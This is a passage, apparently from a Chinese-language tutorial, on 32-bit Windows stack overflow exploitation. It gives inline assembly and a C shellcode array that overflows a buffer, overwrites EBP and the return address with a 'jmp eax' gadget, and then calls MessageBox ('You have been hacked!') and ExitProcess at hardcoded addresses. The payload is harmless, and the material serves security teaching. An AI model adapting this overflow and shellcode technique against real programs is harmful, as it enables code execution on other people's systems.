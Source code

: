 ```c
  push 0x64656b63
  push 0x6168206e
  push 0x65656220
  push 0x65766168
  push 0x20756f59   
  mov ecx,esp      //用ecx存放该字符串的指针    

  push ebx    //MessageBox函数参数依次入栈
  push eax
  push ecx
  push ebx   
  mov eax,0x8cd78b70
  call eax        // call MessageBox

  push ebx  //ExitProcess函数参数入栈
  mov eax, 0x8cebe3e0
  call eax       // call ExitProcess
 }
 return 0;
}
```



### 漏洞程序数组中的机器码(32位)：

```c
#include <windows.h>
#include <stdio.h>
#include <string.h>
char name[] = "\x41\x41\x41\x41\x41\x41\x41\x41"  // name[0]~name[7]
     "\x41\x41\x41\x41"                      // to Overlap EBP
     "\x2B\x30\x97\x16"                      // Return Address(Address of "Jmp eax")
     "\x83\xEC\x50"                           // sub esp,0x50
     "\x33\xDB"                                // xor ebx,ebx
     "\x53"                                     // push ebx
     "\x68\x69\x6E\x67\x20"
     "\x68\x57\x61\x72\x6E"                  // push "Warning"
     "\x8B\xC4"                                 // mov eax,esp
     "\x53"                                      // push ebx
     "\x68\x29\x20\x20\x20"
     "\x68\x20\x4A\x77\x6d"
     "\x68\x21\x28\x62\x79"
     "\x68\x63\x6B\x65\x64"
     "\x68\x6E\x20\x68\x61"
     "\x68\x20\x62\x65\x65"
     "\x68\x68\x61\x76\x65"
     "\x68\x59\x6F\x75\x20"   // push "You have been hacked!(by Jwm)"
     "\x8B\xCC"                        // mov ecx,esp
     "\x53"                          // push ebx
     "\x50"                          // push eax
     "\x51"                          // push ecx
     "\x53"                          // push ebx
     "\xB8\x70\x8B\xD7\x8C"           
     "\xFF\xD0"             // call MessageBox
     "\x53"
     "\xB8\xE0\xE3\xEB\x8C"
     "\xFF\xD0";            // call ExitProcess

int main()
{
     char warning_str[] = "\x57\x61\x72\x6E"
     "\x69\x6E\x67\x20";
     printf("%s\n",warning_str);
```